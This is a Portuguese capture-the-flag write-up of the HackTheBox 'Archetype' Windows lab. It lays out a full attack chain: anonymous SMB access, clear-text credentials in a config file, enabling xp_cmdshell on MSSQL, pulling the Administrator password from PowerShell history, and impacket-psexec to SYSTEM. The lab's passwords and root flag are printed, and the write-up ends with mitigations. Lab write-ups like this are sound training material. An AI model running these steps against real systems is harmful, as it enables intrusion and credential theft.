



# HackTheBox — Archetype (Tier 2)

## Informações

| Campo | Detalhe |
|---|---|
| **Plataforma** | HackTheBox Starting Point |
| **Tier** | 2 |
| **Dificuldade** | Very Easy |
| **Sistema** | Windows |
| **Serviços** | SMB, MSSQL |

---

## Contexto

Máquina Windows com compartilhamento SMB acessível sem autenticação, expondo um arquivo de configuração com credenciais em texto claro. Essas credenciais davam acesso ao MSSQL, onde a função `xp_cmdshell` permitiu execução de comandos no sistema operacional. O histórico do PowerShell revelou a senha do Administrator, usada por fim para obter shell como `SYSTEM` via `psexec`.

---

## Reconhecimento — SMB

Listei os compartilhamentos disponíveis sem autenticação:

```bash
smbclient -L //10.129.108.92 -N
```

Resultado:

```
Sharename       Type      Comment
ADMIN$          Disk      Remote Admin
backups         Disk
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

`ADMIN$`, `C$` e `IPC$` são shares administrativos padrão do Windows. O share `backups` chamou atenção por ser customizado e acessível sem autenticação.



---

## Exploração — Credenciais no Backup

Acessei o share diretamente:

```bash
smbclient //10.129.108.92/backups -N
```

Dentro dele, um único arquivo:

```
prod.dtsConfig
```

Arquivos `.dtsConfig` são configurações de pacotes SSIS (SQL Server Integration Services) — comumente armazenam strings de conexão com banco de dados. Baixei e li:

```bash
get prod.dtsConfig
cat prod.dtsConfig
```

Conteúdo revelou credenciais em texto claro:

```
User ID=ARCHETYPE\sql_svc
Password=M3g4c0rp123
```

**Falha 1:** compartilhamento SMB anônimo expondo arquivo de configuração com senha em texto claro.

---

## Exploração — Acesso ao MSSQL

Com as credenciais do `sql_svc`, conectei ao MSSQL usando o cliente do Impacket:

```bash
impacket-mssqlclient sql_svc:M3g4c0rp123@10.129.108.92 -windows-auth
```

Acesso confirmado — prompt `SQL>` indicando sessão ativa no SQL Server da máquina Windows.

---

## Exploração — Ativando xp_cmdshell

`xp_cmdshell` é uma stored procedure do SQL Server que executa comandos do sistema operacional diretamente do contexto SQL. Estava desabilitada por padrão:

```sql
xp_cmdshell "whoami"
-- erro: comando desabilitado
```

Ativei manualmente:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Testei novamente:

```sql
xp_cmdshell "whoami"
```

Resultado: `archetype\sql_svc`

**Falha 2:** o usuário de serviço `sql_svc` tinha permissão suficiente no SQL Server para reconfigurar opções avançadas e ativar `xp_cmdshell` — RCE direto a partir de uma conta de serviço.

---

## Exploração — Histórico do PowerShell

Com execução de comando confirmada, fui atrás de credenciais adicionais. O arquivo de histórico do PowerShell é um alvo clássico em pós-exploração Windows:

```sql
xp_cmdshell "type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```

O histórico revelou um comando anterior:

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

Alguém havia montado o share `backups` autenticando como `administrator`, deixando a senha exposta no histórico de comandos.

**Falha 3:** senha do Administrator persistida em texto claro no histórico do PowerShell.

Credenciais obtidas: `administrator` / `MEGACORP_4dm1n!!`

---

## Captura da Flag de Usuário

Antes de escalar, capturei a flag de usuário via `xp_cmdshell`:

```sql
xp_cmdshell "type C:\Users\sql_svc\Desktop\user.txt"
```



---

## Escalação — psexec como Administrator

Com a senha do Administrator, usei `psexec` do Impacket para obter shell remota com privilégio máximo:

```bash
impacket-psexec administrator:'MEGACORP_4dm1n!!'@10.129.108.92
```



O `psexec` autentica via SMB como Administrator, faz upload de um executável temporário, cria um serviço no Windows e executa uma shell remota através dele.

Confirmação do nível de acesso:

```cmd
whoami
nt authority\system
```

`SYSTEM` é o nível de privilégio mais alto possível no Windows — superior até ao Administrator.

---

## Flag de Root

Com acesso SYSTEM, li a flag final diretamente:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

Resultado: `b91ccec3305e98240082d4474b848528`


---

## Cadeia de Exploração

```
SMB anônimo → share "backups" acessível
→ prod.dtsConfig → credenciais sql_svc em texto claro
→ impacket-mssqlclient → acesso ao MSSQL
→ xp_cmdshell ativado → RCE como sql_svc
→ ConsoleHost_history.txt → senha do Administrator exposta
→ impacket-psexec administrator → shell remota
→ whoami → nt authority\system
→ root.txt capturada
```

---

## Impacto

Nenhuma das falhas individuais era sofisticada — SMB anônimo, arquivo de configuração com senha em claro, conta de serviço com permissão excessiva, e histórico de comando não higienizado. Juntas, formam uma cadeia completa de comprometimento, da enumeração inicial até privilégio SYSTEM total na máquina. Esse é o padrão mais comum em comprometimentos reais de Active Directory: múltiplas pequenas negligências encadeadas, não uma falha única e dramática.

---

## Mitigação

- Desabilitar acesso anônimo a compartilhamentos SMB; aplicar autenticação e princípio de menor privilégio em cada share.
- Nunca armazenar credenciais em texto claro em arquivos de configuração — usar Credential Manager, variáveis de ambiente protegidas ou cofres de segredos (Azure Key Vault, HashiCorp Vault).
- Restringir a permissão de contas de serviço no SQL Server — `sql_svc` não deveria ter acesso a `sp_configure`.
- Manter `xp_cmdshell` desabilitado permanentemente em ambientes de produção, salvo necessidade explícita e auditada.
- Limpar ou desabilitar o histórico do PowerShell em contas administrativas, ou usar autenticação que não exponha senha em linha de comando.
- Monitorar e alertar sobre criação de serviços remotos via SMB (indicador de uso de `psexec`).

---

## Aprendizados

- SMB anônimo continua sendo um dos vetores de reconhecimento mais produtivos em máquinas Windows mal configuradas.
- Arquivos `.dtsConfig` (SSIS) são alvos valiosos de enumeração — frequentemente contêm strings de conexão com credenciais.
- `xp_cmdshell` é o ponto de virada clássico de SQLi/acesso a banco para RCE total em ambientes MSSQL — sempre testar se está ativável quando há permissão de DBA.
- `ConsoleHost_history.txt` é o equivalente Windows do `.bash_history` — sempre verificar em pós-exploração, é onde administradores deixam senhas digitadas em comandos `net use`, `runas` ou similares.
- `impacket-psexec` é a ferramenta padrão para obter shell SYSTEM remotamente quando se tem credenciais administrativas válidas via SMB.
- A cadeia completa (SMB → MSSQL → xp_cmdshell → histórico → psexec → SYSTEM) é o fluxo mais comum em CTFs e pentests reais de ambientes Windows/AD — vale memorizar essa sequência como metodologia padrão.
